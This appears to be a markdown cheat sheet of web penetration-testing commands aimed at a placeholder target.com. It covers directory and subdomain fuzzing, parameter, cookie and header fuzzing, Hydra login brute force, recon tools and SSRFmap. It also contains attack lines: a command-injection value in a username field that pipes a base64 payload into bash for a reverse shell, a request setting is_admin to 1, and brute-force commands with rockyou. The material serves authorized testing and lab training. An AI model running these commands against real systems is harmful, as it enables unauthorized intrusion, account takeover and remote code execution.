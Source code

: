##  Web Fuzzing Tools

### 🔹 FFUF — Fuzzing parameters, files, login forms, subdomains
```bash
ffuf -w wordlist.txt -u http://target.com/FUZZ
```
**Examples:**
- Fuzz POST param for command injection:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt \
  -u http://target.com/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=FUZZ" -fw 3
```
- Login form brute force:
```bash
ffuf -w usernames.txt:USERNAME -w passwords.txt:PASSWORD -X POST \
  -u http://target.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=USERNAME&password=PASSWORD" -fc 401
```
- Subdomain fuzzing:
```bash
ffuf -w subdomains.txt -u http://target.com/ -H "Host: FUZZ.target.com" -fs 0
```

### 🔹 Gobuster
```bash
gobuster dir -u http://target.com/ -w wordlist.txt -x php,html,txt -t 50 --exclude-length 53
```
- DNS mode:
```bash
gobuster dns -d target.com -w subdomains.txt -t 50
```

### 🔹 Dirsearch
```bash
dirsearch -u http://target.com/ -e php,html,txt -w wordlist.txt -t 40
```

### 🔹 Feroxbuster
```bash
feroxbuster -u http://target.com/ -w wordlist.txt -x php,html -t 50 -r
```

### 🔹 Wfuzz
```bash
wfuzz -w wordlist.txt -u http://target.com/FUZZ --hc 404
wfuzz -w wordlist.txt -u http://target.com/FUZZ.php --hc 404
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Forwarded-For: FUZZ" --hc 404
```

### 🔹Link to different [[Word List]] 
---

##  Fuzzing Parameters / Cookies / Headers

- Fuzz GET parameter values:
```bash
ffuf -u "http://target.com/page.php?param=FUZZ&static=value" -w wordlist.txt -mc all -fc 302 -H "Cookie: PHPSESSID=abcd"
```
- Fuzz cookies:
```bash
ffuf -w common.txt -u http://target.com/ -H "Cookie: FUZZ=1" -fs 0
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Header: FUZZ" --hc 404
```

---

##  Brute Force / Login Cracking

### 🔹 Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form \
"/login:username=^USER^&password=^PASS^:F=Login failed"
```

---

##  Recon Tools

### 🔹 WhatWeb
```bash
whatweb http://target.com
```
> Detects technologies used by a website

### 🔹 Sublist3r
```bash
sublist3r -d target.com -o subdomains.txt
```

### 🔹 SearchSploit
```bash
searchsploit keyword
```
> Searches for known exploits in Exploit-DB

---

##  API Interaction / Web Exploitation

### 🔹 Basic curl with JSON
```bash
curl -sX PUT http://target.com/api/endpoint \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@htb.com", "is_admin": 1}' | jq
```

### 🔹 Reverse shell via curl + API
```bash
curl -sX POST http://target.com/api \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"username": "theo;echo <base64_payload> | base64 -d | bash;"}'
```
> Always encode payload in Base64 to avoid special char issues

---

##  SSRF Exploitation

### 🔹 SSRFmap
```bash
ssrfmap.py -r request.txt -p url -m portscan
```
> Exploits SSRF via given request, fuzzes the 'url' parameter, and runs internal port scanning

--- 
## Semgrep

